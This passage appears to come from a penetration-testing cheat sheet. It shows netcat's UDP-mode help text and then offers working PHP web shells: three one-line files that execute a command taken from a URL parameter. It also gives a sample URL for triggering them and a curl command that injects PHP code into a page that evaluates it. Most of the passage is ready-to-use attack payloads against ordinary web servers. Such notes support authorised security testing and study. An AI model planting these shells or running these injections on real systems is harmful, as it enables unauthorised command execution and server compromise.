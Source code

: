 UDP Mode

Just use the UDP Mode (-u)

```none
nc -h
[v1.10-41.1]
connect to somewhere:   nc [-options] hostname port[s] [ports] ... 
listen for inbound: nc -l -p port [-options] [hostname] [port]
options:
    -l  listen mode, for inbound connects
    -n  numeric-only IP addresses, no DNS
    -p port local port number
    -u  UDP mode
```

### PHP

- **PHP Web Shell**

  This is a kind of Web shell and not a reverse shell.

  We can create a new file say (shell.php) on the server containing

  ```none
  <?php system($_GET["cmd"]); ?>
  ```

  or

  ```none
  <?php echo shell_exec($_GET["cmd"]); ?>
  ```

  or

  ```none
  <? passthru($_GET["cmd"]); ?>
  ```

  which can then be accessed by

  ```none
  http://IP/shell.php?cmd=id
  ```

  If there's a webpage which accepts phpcode to be executed, we can use curl to urlencode the payload and run it.

  ```none
  curl -G -s http://10.X.X.X/somepage.php?data= --data-urlencode "html=<?php passthru('ls -lah'); ?>" -b "somecookie=somevalue" | sed '/<html>/,/<\/html>/d'
  
  -G When used, this option will make all data specified with -d, --data, --data-binary or --data-urlencode to be used in an HTTP GET request instead of the POST request that otherwise would be used. The data will be appended to the URL with a  '?' separator.
  -data-urlencode <data> (HTTP) Posts data, similar to the other -d, --data options with the exception that this performs URL-encoding. 
  -b, --cookie <data> (HTTP) Passes the data to the HTTP server in the Cookie header. It is supposedly the data previously received from the server in a "Set-Cookie:" line.  The data should be in the format "NAME1=VALUE1; NAME2=VALUE2".
  ```
